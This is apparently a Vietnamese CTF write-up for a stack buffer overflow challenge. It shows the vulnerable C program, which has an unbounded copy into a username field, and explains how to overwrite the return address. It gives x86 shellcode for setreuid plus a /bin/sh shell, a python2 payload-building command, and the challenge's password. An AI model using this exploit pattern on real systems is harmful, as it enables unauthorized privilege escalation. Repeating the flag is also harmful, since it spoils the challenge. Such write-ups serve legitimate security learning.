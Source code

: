 # ELF x86 - Stack buffer overflow basic 5

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <ctype.h>
#include <unistd.h>
#include <sys/types.h>
 
#define BUFFER 512
 
struct Init
{
  char username[128];
  uid_t uid;
  pid_t pid;  
   
};
 
void cpstr(char *dst, const char *src)
{
  for(; *src; src++, dst++)
    {
      *dst = *src;
    }
  *dst = 0;
}
void chomp(char *buff)
{
  for(; *buff; buff++)
    {
      if(*buff == '\n' || *buff == '\r' || *buff == '\t')
        {
          *buff = 0;
          break;
        }
    }
}
struct Init Init(char *filename)
{
   
  FILE *file;
  struct Init init;
  char buff[BUFFER+1];  
   
   
  if((file = fopen(filename, "r")) == NULL)
    {
      perror("[-] fopen ");
      exit(0);
    }
   
  memset(&init, 0, sizeof(struct Init));
   
  init.pid = getpid();
  init.uid = getuid();
   
  while(fgets(buff, BUFFER, file) != NULL)
    {
      chomp(buff);
      if(strncmp(buff, "USERNAME=", 9) == 0)
        {
          cpstr(init.username, buff+9);
        }
    }
  fclose(file);
  return init;
}
int main(int argc, char **argv)
{
  struct Init init;
  if(argc != 2)
    {
      printf("Usage : %s <config_file>\n", argv[0]);
      exit(0);
    }
  init = Init(argv[1]);
  printf("[+] Runing the program with username %s, uid %d and pid %d.\n", init.username, init.uid, init.pid);
   
  return 0;
}
```

Hàm `main` gọi hàm `Init()` với `argv[1]`, cơ chế giống với bài trước khi hàm `Init` trả về một struct.

Hàm `cpstr` giống hệt với hàm `strcpy`.

Hàm Init mở một file với đường dẫn tại `argv[1]`, tiến hành đọc từng dòng 1, nếu dòng có dạng `USERNAME=` thì copy nó vào `init.username`, ta sẽ tiến hành tấn công giống với bài trước, ta đặt shellcode vào trong biến `init.username`, ghi đè return address và vùng nhớ tạm giống nhau, chương trình sẽ return về shellcode. Tại shellcode, ta gọi `setreuid(1210, 1110)` và `system(“/bin/sh”, 0, 0)`.

Shellcode

```assembly
section .text
	global _start:

_start:
	xor edx, edx
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	mov bx, 0x4ba
	mov cx, 0x456
	mov al, 0x46
	int 0x80	

	xor eax, eax
	xor ecx, ecx
	push eax
	push 0x68732f2f
	push 0x6e69622f
	push esp
	pop ebx
	mov al, 0xb
	int 0x80
```

Biến `init.username` có địa chỉ là `ebp – 0xa4`

![](images/5.png)

Exploit:

```bash
python2 -c "print 'USERNAME=' + '\x31\xd2\x31\xc0\x31\xdb\x31\xc9\x66\xbb\xba\x04\x66\xb9\x56\x04\xb0\x46\xcd\x80\x31\xc0\x31\xc9\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\xb0\x0b\xcd\x80' + '\x90' * 95 + '\x60\xb1\x04\x08' + 'A' * 28 + '\x70\xf9\xff\xbf' + '\x70\xf9\xff\xbf' + '\xaf\x90\xf6\xb7'" > /tmp/cobrad1
```

```bash
./ch10 /tmp/cobrad1
```

![](images/6.png)

Password là: `h8Q!2)3=9"51`

